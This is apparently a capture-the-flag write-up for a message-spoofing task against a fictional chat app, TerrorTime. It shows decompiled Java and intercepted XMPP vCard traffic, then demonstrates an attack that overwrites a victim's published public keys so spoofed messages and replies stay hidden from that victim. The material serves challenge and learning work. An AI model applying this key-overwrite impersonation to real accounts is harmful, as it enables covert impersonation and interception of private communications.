

# Task 6a - Message Spoofing

## Prompt

The ability to masquerade as a TerrorTime user is helpful, even when we are not able to access the plaintext version of their messages. We want to be able to send "spoofed" messages (i.e., messages appearing to be from the user we are masquerading as) to other TerrorTime users as a way of disrupting their attack plans. Critically, any conversation we have as the masqueraded user should never be visible to that user the next time they access their account. But complicating matters is the fact that all messages sent and received through TerrorTime are archived on the chat server and downloaded each time a user logs in to their account. For this task, identify a vulnerabilty that will allow you to send/receive messages as a TerrorTime user without that user ever seeing those messages the next time they access their account. To prove your solution, submit the encrypted message body of a spoofed message that was sent from the organization leader to a cell leader. Submit the full client id of the cell leader you chose. Put the organization leader's account in a state such that replies to your spoofed message will never be seen by them, but still readable by you.

## Solution

### Protocol Analysis

In task 5 we learned how to spoof the login of another user to be able to send messages as them. Now we have to figure out how to cover our tracks to make sure the real user won't see our messages or get replies from the user we're messaging. It really helps to have an idea of how the public key infrastructure is set up for the TerrorTime application to figure out an exploit.

Every user should have a public and private key that they use to receive and decrypt messages with repectively. If the server archives all of these messages, it will only be able to have an encrypted copy. And if we have our own public/private key then the real user shouldn't be able to see our spoofed message anyway, right?! Something else must be going on for a user with a different private key to be able to decrypt a message we send. Let's take a look at what a message looks like to figure out what might be going on.


Interesting, the only thing that seems out of place is the message key. If a single symmetric key for the message is encrypted using each public key for every user that would explain why so many people can see the message! Let's look in the decompiled code to confirm this.

`crypto/Messaging.java` makes it clear that this is the case. The `messageKey` has multiple public key fingerprints that each have the symmetric key encrypted with the public key from the fingerpint. So, if we wanted to prevent the real organization leader from being able to see the message, my first thought would be to remove their `messageKey` section from the spoofed message we send out. Unfortunately, this chunk of code makes sure that all messages have all public key fingerprints for both sender and recipient:

```
final JSONObject jsonObject4 = new JSONObject(new String(CryptHelper.aesDecrypt(unwrapKey, dec
if (jsonObject4.has(((Message)ex).getClientId()) && jsonObject4.has(((Message)ex).getContactId
final JSONArray jsonArray = jsonObject4.getJSONArray(((Message)ex).getClientId());
final JSONArray jsonArray2 = jsonObject4.getJSONArray(((Message)ex).getContactId());
for (int i = 0; i < jsonArray.length(); ++i) {
    if (!jsonObject2.has(jsonArray.getString(i))) {
        Log.v("decryptMessage", "Mismatched recipients");
        return Optional.empty();
    }
}
for (int j = 0; j < jsonArray2.length(); ++j) {
    if (!jsonObject2.has(jsonArray2.getString(j))) {
        Log.v("decryptMessage", "Mismatched recipients");
        return Optional.empty();
    }
}
```

If we can't remove or modify the fingerprint, maybe we could modify the key? The key isn't verified for the sender by the recipient and it would prevent the real user from decrypting the message upon login. However, that would only prevent them from getting the messages we spoof, not the replies because a sender has their own copy of the public keys for their recipient. 

Perhaps we can go to the source? The list of public keys has to come from somewhere and we definitely have the ability to update it because everyime we generate a new public key pair it gets added to the list. Otherwise we wouldn't be able to spoof messages. If we can add, we might also be able to delete.

Doing a quick search for anything mentioning public keys, `grep -ir "publickey" ./` gives us a bunch of results, but towards the bottom there are a few references to something called `savePublicKey` and `savePublicKeyToVCard` in `LoginActivity.java`. A vCard is a Virtual Contact Card, just something that each client has with some information. If this app is using the vCard to exchange Public Keys, we can probably manipulate the key update on login. The VCardHelper.java file contains the `savePublicKey` method:

```
public static boolean savePublicKey(final String s) {
        final TerrorTimeApplication instance = TerrorTimeApplication.getInstance();
        try {
            final VCardManager vCardManager = instance.getVCardManager().orElseThrow((Supplier<? extends Throwable>)_$
            VCard loadVCard;
            if ((loadVCard = vCardManager.loadVCard(instance.getXMPPTCPConnection().orElseThrow((Supplier<? extends Th
                loadVCard = new VCard();
            }
            final String field = loadVCard.getField("DESC");
            if (field != null) {
                final String[] split = field.split(":");
                for (int length = split.length, i = 0; i < length; ++i) {
                    if (Arrays.equals(split[i].getBytes(), s.getBytes())) {
                        return true;
                    }
                }
                final StringBuilder sb = new StringBuilder(s);
                sb.append(":");
                sb.append(field);
                loadVCard.setField("DESC", sb.toString());
            }
            else {
                loadVCard.setField("DESC", s);
            }
            vCardManager.saveVCard(loadVCard);
            return true;
        }
        finally {
            final Throwable t;
            Log.e("EXCEPTION", "Error saving public key", t);
            return false;
        }
    }
```

This method fetches the vCard on login and checks to see if our key is in that card, if it is not, it updates the card with our information. Let's see if we can see this traffic in BurpSuite while logging into an account.



### vCard Exploitation

#### NOTE: Overwriting vCards will permanently remove the legitimate Public Key from the service unless you save it. You need the Public Key to be correct in Task 6b and Task 7 so make sure to save all Public Keys you overwrite.

Confirmed! The vCard is being retrieved and updated at login. So, if we want to prevent the archived messages from being seen by the legitimate user, we can remove all of the public keys from the vCard response, then our key will be added and we will be the only ones able to read that message!

Here's the modified response to our vCard request:

```
<iq xml:lang='en' to='malia--vhost-10@terrortime.app/chat' from='malia--vhost-10@terrortime.app' type='result' id='fsa1a-2893'><vCard xmlns='vcard-temp'><DESC>
</DESC></vCard></iq>
```

Here's the vCard update request from our app:

```
<iq id='fsa1a-2895' type='set'><vCard xmlns='vcard-temp'><DESC>-----BEGIN PUBLIC KEY-----
MIIBITANBgkqhkiG9w0BAQEFAAOCAQ4AMIIBCQKCAQA0EAaw73OKk2j6H5xmFvV/
4bW26pd7sd/sFnjngyU/0+AjZPMUjd7VN0akxsnBA33t0XAOAJmyUvMbIxHR/sTf
F5wk76SaJmwBaZQjlW/SQIIGHKskTuPxPFbP+3uJVhtHdUa7dxQcztWxdq2zK1XH
4lycqeorL0keJ0AhnfAz64cnuG+dSCG3d5aumqsHspDUPA1AAEHA9cJE0hqajsV3
T/LxBVrn2ha9VzHgHBDUPzGuPuTE2p8W5xmKMUS68uF9QTAM463wnzznTJkuCHbZ
4r7q50yaA87xYkdSFqE/+moX4ZuIqoW0TA9PYHzGyeerm2d+qfx7EYw8XHbMdF7H
AgMBAAE=
-----END PUBLIC KEY-----
:
</DESC></vCard></iq>
```

Now any messages we send will fulfill the challenge requirements as long as the recipient is a Cell Leader.

```
{
  "messageKey": {
    "gO8Zs/2vO0rtrJwY6WULjiBWRDscPiRuU+Tsh2kpH9s=": "Hgx+ms3/fSSYVdwyDItN9gQT5eTHcvse846dM5PurQIP5qrkPW5pJaiwQyPJWRWGORoQegi5+S2K28XzVlR0qn4nVg5uaWMXR5DwrJpj2H9UkrgtUTLcr2CaRmsKltaXgwx29iHqjou2bwcnOIjQv1Iq+MYGtZE8CXwaNJZqFwme5CDjTFGQ6hvTf+vWaHL9sDB1HSLZC2OrFb7Hh9pt677B+9E/MIdZiQ/MEHndK030B0Z0jR3ww/9smSsBembaZjuVIpURoN9OhURdN9AeNr5Lv3XPJYIRsb3Gi1axWmbf/MVaRg7hKqQdtiCu8ICJ8NyPLeyAKfvCLJCm+p+53g==",
    "TctZgSAE7tgW8R3z2xa9VJX3wPDBYfaYr5/Y+5jUWjs=": "AVs2ppLVbb12VZ1tzPo7pfHtofuOWPHp4gr2HiASAHztwS+LZqYY4qK1Rx/mKAf7tH5Zv3dA2DAWyz9eyuc9CQzuM9x6Bx0sY91F27mURJIpvfbQPlwO/5Hlvprc0Zt7zgpSBeHJD5MqhFcNXt0+lzPTRZGL8GnUNY1ZzkfGOPqWEtYDj2c3Td+Cs3UIlNJAeU9pgj12w0+nx0+ztG8yKhxBT8xMoI59Gd7qJQch9ArnkUVq/iVwY0oeiw6qNzwnv7yUCGTATW4Gey9vQwO5c1cw9yZDyKJujzoFVXEorCoaWpve0sAIofstP5jpjx5bqxYAB9gxs0jHxvFoeQTh3A==",
    "HDS+POWZ3VbPZnNZ8D7t/1S1kxUpBRoDTQs9OP1uQCI=": "F1xk8nmBRQST37m9j96hmG4J2hFU8ofiqP8Xb9rCfzU+OTda4BHg1a8kKnw9T706DeUAgdPZxwTBCIWrb1Th/mpK/VtIHQBOl1XuomTtFH8TjePoWxQptR7OE2e13PctcDvzouRBsrqyPJL5XoVlQ5hEUy6fGQV1WPEveYRoKjjy+A6s07eMAqPkAdN9yB+hvTkanlIi+F9j53Zr4z5wmldNeEjmL9G9pBtugRdZ/+X3joru1xG72TywqT3+WNICo9RE7J7be7VKNhxrFUvFgrK6OmWJNYkEn3Ia5KvNNYw8sk9M+9yQobNMXd1VOEJ56VP8RqqYLMNE6MPzfe9NhQ==",
    "T7+CH1iMcPuo93vpMvGfQpyBdsUwu5ur4CXnonP9bDo=": "Jmz7HFKToIPiCwJ1H6QEMCz9CzvzoyW8QvywkFFRt0cGYIuKATGVQ67Dz3Y3ehf2l4yUQsts2qZ8lbWmFdHAI+WZHhRn0dstYMxe5ifbDdr8Cxj6YU0fjuRSdixvyp0KctRYF5JBy1AJX9CiY+/3UBz3fwMtMVk9it1ukXTyDcsUQw61zn2U102rUspNJ12Z/ITCqTXWOfYVTITXrEQAorBkVFKaTZxdMtZgX76LevaHftEWBgrNRbLE8uISwAD76q5sT8CZl/oofU2Yf0Ot13BBhiA2/USGwNmo8zt/GO2QboAdX0eRQQSOh1Yp+G/O6/2/ce7JXBpLjPjli0PpUQ==",
    "7uz4b7go+xNdYzlBsBfWmxBSseGOhfk5REuruRVyv4Y=": "ASGu0oifxKVn0jaXl+5AqJSBh91dw0y/QIojYMZLhjhuLp9In9rFHkSi5EtCFOLTAYGyZWvRc6tKn94fvup7uJUKgZTM8/tmvdkfT2pLR2gK1yB+9YJ7JUEehjAjyh4Cqik3L7KM7ac/tUH2zaVLYWR4qP4ozvQ468uvt10lqZ3bD6ZiPIizpCaIdyxunv+1Kx8uK/4/D/bLlMNiTSpUGcokXSVG0YHuF5kvRVNEZaW7Ne0nNvq/35UvHP6TmgstSmwyYPnCZj3xRorQkMgsUjgKn9pEUz0NM6NOz4hO92GSrcaVlvTLcokrd5LEtLGvCk9nrefwjXzqHMQVs2XpUQ=="
  },
  "message": {
    "iv": "AZo8mjwObz5edVoybfTQ6Q==",
    "msg": "XP2/dxW2ng4KwCEHdfJsM0A7Eii5d/eFTXCGWgnDQCqWs7ksk8UrGrG838zd5RPoMV1sZBB4C/yNXnH1Eb+sf+COTNmleGeJzue9W3JO7RyuvmgbvF4qIZ76hEwn5lxRaOSmYtGWWZrAxeKMiU7y2UAnxf/5Rb90oHzp3kLKN0ZA+/5tDH1u41zyMYbloHIEaIrCoHnLLOuroYDzEPcJV5J8X5zqsOc98qKNq3BY42W81Nq6KIuBZxT9x8K/qnXfmE1eZRyOvbeR+ZqDqL59n3SyO8VIGvpbeJ5YaoayisVoJZssiDpHV6i4buzh94iA4DtCiZgokN7hNO/NPql9QQi25PAu1Tige3jEO377lbiGYd2I5m+ZRDmLgQbwXL2Ysy0mMmNZtSAEmyReDsZM/G0xeUXP78C/6AY1wmYgtqJ6FHJFdPLy4uEMkA/1jqOR"
  },
  "messageSig": "xVAhG9isdjCNDDXtbg8/rdfG0m0jXJgO2RDl4HabvXo="
}
```

Our spoofed user accounts for one of the `messageKey` fields here and our Cell Leader accounts for the other four and no one besides us and the Cell Leader have access to these messages, archived or not. 
